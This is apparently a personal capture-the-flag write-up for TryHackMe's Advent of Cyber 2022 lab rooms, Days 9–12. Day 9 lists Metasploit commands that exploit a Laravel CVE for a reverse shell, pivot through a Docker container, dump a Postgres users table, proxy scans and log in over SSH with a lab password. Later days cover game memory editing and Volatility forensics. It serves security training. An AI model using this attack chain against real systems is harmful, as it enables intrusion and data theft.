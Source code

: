 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 9: Dock the halls

scan the target

```
nmap -sV 10.10.249.228
```

![image](https://user-images.githubusercontent.com/90561566/206836994-a0fb95a9-acae-4ccf-ba35-ca6528a21ab3.png)

go to webpage, you will see it use Laravel framework

![image](https://user-images.githubusercontent.com/90561566/206840506-be217bdf-43cf-476f-9374-f90124b29f70.png)

search for exploit

![image](https://user-images.githubusercontent.com/90561566/206840698-57f8cc20-b922-498f-ba11-b61d7d792e8f.png)

```
msfconsole
```

![image](https://user-images.githubusercontent.com/90561566/206837648-bd28931c-0d84-4f9f-ade3-97692ff1269f.png)

type `info` and you will see cve here

![image](https://user-images.githubusercontent.com/90561566/206840790-4eede273-2564-40a2-b259-e541c3b1e38b.png)

```
set HttpClientTimeout 20
set rhosts 10.10.249.228
check
```

![image](https://user-images.githubusercontent.com/90561566/206837806-531454b0-ff76-47ea-80b5-e149fa8df684.png)

```
set lhost 10.8.0.74
run
```

![image](https://user-images.githubusercontent.com/90561566/206837939-35b425b2-0568-4b05-890b-43a01299d78d.png)

background the session

![image](https://user-images.githubusercontent.com/90561566/206837988-e6642782-7f7e-4a54-afa4-acd1c59a11b0.png)

update to meterpreter

```
sessions -u 1
sessions -i 2
```

![image](https://user-images.githubusercontent.com/90561566/206838093-8285c2ce-5860-45f9-9d5e-2c69a4c5bc90.png)

explore the application

![image](https://user-images.githubusercontent.com/90561566/206838159-9969a7e2-cdce-4ce3-a8dc-0d9f3081e70d.png)

![image](https://user-images.githubusercontent.com/90561566/206838186-643b9f42-691c-4d12-bfd1-5d21bff1b288.png)

resolve hostname to ip

```
resolve webservice_database
```

background session and config route table for pivoting

```
route add 172.28.101.51/32 2
```

![image](https://user-images.githubusercontent.com/90561566/206838345-54f3e8f8-8a20-4a40-b71b-2ac102b34280.png)

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. 

By default, Docker chooses a hard-coded IP to represent the host machine.

```
route add 172.17.0.1/32 2
```

dump the database schema

```
use auxiliary/scanner/postgres/postgres_schemadump
set rhosts 172.28.101.51
run
```

![image](https://user-images.githubusercontent.com/90561566/206839175-3d006527-4439-4a7f-8e43-9960f6d6fa9e.png)

```
use auxiliary/admin/postgres/postgres_sql
set rhosts 172.28.101.51
set database postgres
set sql 'select * from users'
run
```

![image](https://user-images.githubusercontent.com/90561566/206839428-c7603330-bbd1-4d31-82b7-c2bc8c8a269c.png)

create socks proxy

```
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 9050
set version 4a
run
```

![image](https://user-images.githubusercontent.com/90561566/206839549-64059aea-be38-444c-ab6f-f9da523b2996.png)

now you can use proxy through

```
proxychains nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
```

![image](https://user-images.githubusercontent.com/90561566/206839554-7ee40680-c4dd-49d0-8de1-8431fa20d1d6.png)

SSH into the host machine from the Docker container

```
use auxiliary/scanner/ssh/ssh_login
set username santa
set password p4$$w0rd
set rhosts 172.17.0.1
run
```

now interact with opened session to grab flag

![image](https://user-images.githubusercontent.com/90561566/206840056-96f5cd4d-5e12-43f3-a8bf-6053b31c7752.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/206840820-1d4b507f-fefa-495d-ae4e-c37dc1053558.png)

![image](https://user-images.githubusercontent.com/90561566/206840829-9634a7c4-c544-4e1a-a526-92f18f2fd401.png)

## Day 10: You're a mean one, Mr. Yeti

open a game at https://10.10.12.38:443

![image](https://user-images.githubusercontent.com/90561566/206893338-e7e236eb-3d73-435e-993b-f95b2634a6b2.png)

turn right and meet the guard near the door, he requires you to quess a number

![image](https://user-images.githubusercontent.com/90561566/206893407-23ead003-1731-4b1c-b031-872dcae0d8c2.png)

enter anything you want, he will show his first number, use it on cetus

![image](https://user-images.githubusercontent.com/90561566/206893584-93ff3eac-7c4a-48b7-9480-d2d79b2d9fe9.png)

bookmark it, talk to the guard again and answer with the new number (convert it to decimal before)

![image](https://user-images.githubusercontent.com/90561566/206893681-915060f7-42c6-4c56-8749-3006b08699b5.png)

you can change it to other number before answering (0 for easiest)

![image](https://user-images.githubusercontent.com/90561566/206894039-2dba8e8e-3983-40f3-9c47-97e70aea0003.png)

go ahead, it's a big challenge for you

![image](https://user-images.githubusercontent.com/90561566/206893782-02e62d34-75ae-4c25-a146-4faa13afdf7b.png)

hmm, you can't pass it, i think 2 ways to do that, once you can stop the snowball, or you need to be invincible

![image](https://user-images.githubusercontent.com/90561566/206894233-165ac268-b31a-4440-a572-6a1bbc55e96a.png)

start new search with no-value EQ flag, reduce your heart with 1 hit, then continue check with no-value LE flag

![image](https://user-images.githubusercontent.com/90561566/206894317-22fba31e-af43-4428-ae53-d392d7ffc335.png)

until you revive, check with GT flag, now you know your max heart EQ to 100

![image](https://user-images.githubusercontent.com/90561566/206894352-ef3c6996-7b89-442c-a8b5-a286a40e3872.png)

continue you will find out 3 record, the 2 same are correct, bookmark them

![image](https://user-images.githubusercontent.com/90561566/206894186-16d28a8a-ab35-42a7-bea7-1464f5eac0f3.png)

after testing with reducing my heart, i know the first one store current heart, the other store displayed heart

![image](https://user-images.githubusercontent.com/90561566/206894472-0ad70b6e-f9bd-4da5-9eea-9059a86c301b.png)

in other words, variable 2 is a reference to variable 1, but you can change both to 1000 or freeze the first var

![image](https://user-images.githubusercontent.com/90561566/206894629-7a3f5092-a608-4c2c-b13b-bc8e16730f9d.png)

talk to yeti, here is your flag

![image](https://user-images.githubusercontent.com/90561566/206894661-766054f4-119b-451d-b231-665e0554ee65.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/206894791-261f36a0-8fff-4bc9-89d5-0efd6d8d1c5d.png)

## Day 11: Not all gifts are nice

firstly, scan the os

```
python3 vol.py -f workstation.vmem windows.info
```

![image](https://user-images.githubusercontent.com/90561566/207078031-70e6bcb4-ecc3-434b-95d9-ae67c0709967.png)

scan the processes

```
python3 vol.py -f workstation.vmem windows.pslist
```

you will see a gift that santa left for us

```
python3 vol.py -f workstation.vmem windows.dumpfiles --pid 2040
```

![image](https://user-images.githubusercontent.com/90561566/207079495-e5641d24-feeb-4836-9964-723ab9bc7c2f.png)

## Day 12: Forensic McBlue to the REVscue!

























